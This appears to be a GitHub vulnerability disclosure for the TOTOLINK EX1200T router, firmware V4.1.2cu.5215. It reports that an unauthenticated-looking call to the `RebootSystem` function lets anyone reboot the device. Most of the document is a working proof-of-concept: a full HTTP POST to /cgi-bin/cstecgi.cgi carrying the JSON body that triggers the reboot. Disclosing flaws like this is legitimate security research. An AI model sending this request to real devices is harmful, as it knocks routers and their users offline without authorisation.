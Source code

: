 # TOTOLINK EX1200T REBOOT

## Reboot Vulnerability Description

PRODUCT: TOTOLINK EX1200T V4.1.2cu.5215 (latest version)

The function `RebootSystem` of the file `lib/system.so`  can reboot the system at will.

![image-20211019163422031](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211019163422031.png)

## PoC

```
POST /cgi-bin/cstecgi.cgi?action=1 HTTP/1.1
Host: 192.168.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
If-Modified-Since: Thu, 01 Jan 1970 00:00:03 GMT
Connection: close
Content-Length: 68

{"topicurl":"RebootSystem"}
```

![image-20211019163826445](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211019163826445.png)